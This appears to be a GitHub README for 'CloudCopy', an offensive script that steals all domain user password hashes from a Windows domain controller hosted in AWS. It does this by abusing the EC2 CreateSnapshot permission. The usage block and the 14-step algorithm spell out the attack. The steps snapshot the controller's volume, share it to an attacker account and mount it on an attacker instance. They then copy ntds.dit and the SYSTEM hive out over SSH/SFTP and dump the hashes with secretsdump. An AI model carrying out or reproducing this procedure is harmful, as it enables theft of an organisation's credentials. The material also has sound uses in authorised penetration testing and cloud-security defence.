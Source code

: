 # CloudCopy
This script implements a cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the EC2:CreateSnapshot permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.

# Usage
```
usage: CloudCopy.py [-h]
                    youraccountid yourinstancekey localkeypath targetaccesskey
                    targetsecretkey youracccesskey yoursecretkey

positional arguments:
  youraccountid    your account id for stealing snapshot
  yourinstancekey  your private key name (without .pem) for accessing the
                   instance
  localkeypath     local path to key for ssh'ing to new instance
  targetaccesskey  target AWS Access Key for making snapshot
  targetsecretkey  target AWS Secret Key for making snapshot
  youracccesskey   your AWS Access Key for making instance
  yoursecretkey    your AWS Secret Key for making instance

optional arguments:
  -h, --help       show this help message and exit

```

# CloudCopy Algorithm
1.  Load AWS CLI with Target Creds
2.  Run "Describe-Instances" and show in list to select
3.  Run "Create-Snapshot" on volume from selected instance
4.  Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account
5.  Load AWS CLI with Attacker Creds
6.  Run "run-instance" command to create new linux ec2 with our stolen snapshot
7.  Ssh run "sudo mkdir /windows"
8.  Ssh run "sudo mount /dev/xvdf1 /windows/"
9.  Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
10. Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
11. Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"
12. SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"
13. SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"
14. locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets #expects secretsdump to be on path
